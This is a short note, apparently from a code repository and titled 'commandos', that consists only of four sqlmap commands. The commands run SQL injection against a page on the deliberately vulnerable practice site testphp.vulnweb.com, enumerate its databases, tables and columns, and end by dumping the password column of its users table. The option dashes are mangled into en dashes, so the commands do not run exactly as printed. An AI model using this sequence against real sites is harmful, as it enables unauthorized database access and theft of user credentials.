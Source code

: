 # commandos

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 –dbs

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –tables

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –columns

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass –dump 
